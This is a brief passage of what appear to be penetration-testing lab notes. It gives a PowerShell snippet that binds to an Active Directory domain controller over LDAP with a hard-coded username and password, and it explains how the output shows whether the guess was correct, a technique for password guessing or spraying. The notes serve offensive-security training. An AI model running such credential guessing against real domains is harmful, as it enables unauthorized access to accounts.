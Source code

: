 References:  https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx#Examples

### AD Password Enumeration

The object enumeration script can be modified to enumerate passwords as well.  Be mindful of account lockout policies.

```powershell
# Enumerate AD passwords
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "lab")
```

If the login is successful, a message about the object creation will be displayed.

If the login in unsuccessful, a login error will be displayed along with a message about not being able to create the object. `"The user name or password is incorrect."  `